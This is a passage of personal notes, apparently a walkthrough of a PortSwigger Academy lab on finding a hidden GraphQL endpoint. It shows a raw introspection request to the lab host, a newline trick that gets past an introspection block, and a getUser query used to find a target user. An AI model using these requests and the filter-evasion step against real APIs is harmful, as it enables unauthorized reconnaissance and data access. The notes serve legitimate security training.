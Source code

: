 - Set variables also:

```html
{"id":1}
```

- Done!

#### Lab: Finding a hidden GraphQL endpoint (Portswigger Academy)

- First we need to find a graphql endpoint (default list from the beggining  will be enough)
- This lab should be solved using params `?query=%7b__schema%7btypes%7bname%7d%7d%7d HTTP/2`

```html
GET /api?query=%7b__schema%7btypes%7bname%7d%7d%7d HTTP/2
Host: 0ac300b204b04904801dd04c000f008c.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```

- Next let's run a full introspection query (from the GraphQL tab GraphQL -> Set Introspection query)
- After it fails we could try to update it by just adding `\n` after __schema

```html
query IntrospectionQuery {
   __schema
      {
       queryType {
...
```

- Right click on that request and add this to a Target Site Map: GraphQL -> Save GraphQL queries to site map, after that in a
Target Site Map we could find new query, mutation - to getUser and mutate (delete one)
- So there we could use the first one to find carlos

```html
query getUser($id: Int!) {
  getUser(id: $id) {
    id
    username
  }
}
```
